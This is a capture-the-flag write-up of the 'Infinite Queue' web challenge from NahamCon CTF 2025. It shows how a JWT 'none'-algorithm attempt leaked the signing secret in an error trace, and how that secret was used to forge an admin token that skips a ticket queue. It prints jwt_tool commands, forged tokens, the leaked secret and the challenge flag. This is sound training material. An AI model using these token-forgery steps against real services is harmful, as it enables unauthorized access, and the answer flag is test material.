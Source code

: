 ```yaml
---
name: Infinite Queue (2025)
event: NahamCon CTF 2025
category: Web
description: Writeup for Infinite Queue (Web) - NahamCon CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Infinite Queue

## Description

> Oh my god, I just can't with these concert ticket queues. It's gotten out of control.

## Solution

We get through to a band website for `Infinite Queue`, pretty cool.

![](images/0.PNG)

If we click the `Buy Tickets` option, we'll be placed in a queue for a very long time.

![](images/1.PNG)

Checking burp, we see that the `queue_position` is retrieved by sending a JWT token to `/check_queue`. Check the details with [jwt_tool](https://github.com/ticarpi/jwt_tool)

{% code overflow="wrap" %}

```bash
jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiJyIsInF1ZXVlX3RpbWUiOjE3NTM4ODc4NDEuODM4ODM2LCJleHAiOjUzNDgwMzA1MjF9.r8zkmJfULj4j9XoPBiO69Gra5xAGvsotV0XoYZVE-Cs

Token header values:
[+] alg = "HS256"
[+] typ = "JWT"

Token payload values:
[+] user_id = "'"
[+] queue_time = 1753887841.838836
[+] exp = 5348030521    ==> TIMESTAMP = 2139-06-22 13:02:01 (UTC)
```

{% endcode %}

The token is signed with `HS256`, symmetric encryption. I try to crack it with rockyou, but fail.

{% code overflow="wrap" %}

```bash
jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiJyIsInF1ZXVlX3RpbWUiOjE3NTM4ODc4NDEuODM4ODM2LCJleHAiOjUzNDgwMzA1MjF9.r8zkmJfULj4j9XoPBiO69Gra5xAGvsotV0XoYZVE-Cs -C -d /usr/share/wordlists/rockyou.txt
```

{% endcode %}

Try it with the `None` alg.

{% code overflow="wrap" %}

```bash
jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiJyIsInF1ZXVlX3RpbWUiOjE3NTM4ODc4NDEuODM4ODM2LCJleHAiOjUzNDgwMzA1MjF9.r8zkmJfULj4j9XoPBiO69Gra5xAGvsotV0XoYZVE-Cs -X a

EXPLOIT: "alg":"nOnE" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJuT25FIiwidHlwIjoiSldUIn0.eyJ1c2VyX2lkIjoiJyIsInF1ZXVlX3RpbWUiOjE3NTM4ODc4NDEuODM4ODM2LCJleHAiOjUzNDgwMzA1MjF9.
```

{% endcode %}

I actually got a big error trace from using this token.

{% code overflow="wrap" %}

```json
"error_details":{"debug_mode":false,"environment":{"GPG_KEY":"E3FF2839C048B25C084DEBE9B26995E310250568","HOME":"/root","HOSTNAME":"infinite-queue-68fe983afb25c760-584ffc466-5f47l","JWT_SECRET":"4A4Dmv4ciR477HsGXI19GgmYHp2so637XhMC","KUBERNETES_PORT":"tcp://34.118.224.1:443","KUBERNETES_PORT_443_TCP":"tcp://34.118.224.1:443","KUBERNETES_PORT_443_TCP_ADDR":"34.118.224.1","KUBERNETES_PORT_443_TCP_PORT":"443","KUBERNETES_PORT_443_TCP_PROTO":"tcp","KUBERNETES_SERVICE_HOST":"34.118.224.1","KUBERNETES_SERVICE_PORT":"443","KUBERNETES_SERVICE_PORT_HTTPS":"443","LANG":"C.UTF-8","PATH":"/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","PYTHON_SHA256":"8c136d199d3637a1fce98a16adc809c1d83c922d02d41f3614b34f8b6e7d38ec","PYTHON_VERSION":"3.9.22","WERKZEUG_SERVER_FD":"3"},"error":"The specified alg value is not allowed","request_data":{"token":"eyJhbGciOiJuT25FIiwidHlwIjoiSldUIn0.eyJ1c2VyX2lkIjoiJyIsInF1ZXVlX3RpbWUiOjE3NTM4ODc4NDEuODM4ODM2LCJleHAiOjUzNDgwMzA1MjF9."},"time":"2025-05-23T21:24:36.552750"}
```

{% endcode %}

The notable part is `The specified alg value is not allowed`. I try the JWT editor extension in burp with a few different attacks too, e.g. signing with empty key returns `Signature verification failed`.

Wait, I just realised the `JWT_SECRET` is in the response lol.

{% code overflow="wrap" %}

```
4A4Dmv4ciR477HsGXI19GgmYHp2so637XhMC
```

{% endcode %}

We can test it with the JWT tool.

{% code overflow="wrap" %}

```bash
jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiJyIsInF1ZXVlX3RpbWUiOjE3NTM4ODc4NDEuODM4ODM2LCJleHAiOjUzNDgwMzA1MjF9.r8zkmJfULj4j9XoPBiO69Gra5xAGvsotV0XoYZVE-Cs -C -p 4A4Dmv4ciR477HsGXI19GgmYHp2so637XhMC

Password provided, checking if valid...
[+] CORRECT key found:
4A4Dmv4ciR477HsGXI19GgmYHp2so637XhMC
You can tamper/fuzz the token contents (-T/-I) and sign it using:
python3 jwt_tool.py [options here] -S hs256 -p "4A4Dmv4ciR477HsGXI19GgmYHp2so637XhMC"
```

{% endcode %}

OK, we follow it's instructions while setting the queue time to `0`.

{% code overflow="wrap" %}

```bash
jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiJyIsInF1ZXVlX3RpbWUiOjE3NTM4ODc4NDEuODM4ODM2LCJleHAiOjUzNDgwMzA1MjF9.r8zkmJfULj4j9XoPBiO69Gra5xAGvsotV0XoYZVE-Cs -S hs256 -p "4A4Dmv4ciR477HsGXI19GgmYHp2so637XhMC" -T
```

{% endcode %}

I set the `user_id` to `admin` and the `queue_time` to `1.0`.

{% code overflow="wrap" %}

```bash
jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJxdWV1ZV90aW1lIjoxLjAsImV4cCI6NTM0ODAzMDUyMX0.CWzWY422QgpBwUJwbeU-tdDyfQ7s1zhinbj6TKMbk74

Token header values:
[+] alg = "HS256"
[+] typ = "JWT"

Token payload values:
[+] user_id = "admin"
[+] queue_time = 1.0
[+] exp = 5348030521    ==> TIMESTAMP = 2139-06-22 13:02:01 (UTC)
```

{% endcode %}

When we update the token in burp, we get some good news.

{% code overflow="wrap" %}

```json
{ "message": "Your turn has arrived! You can now purchase tickets.", "status": "ready" }
```

{% endcode %}

We can now purchase the ticket.

![](images/2.PNG)

It opens a PDF document containing the flag!

Flag: `flag{b1bd4795215a7b81699487cc7e32d936}`
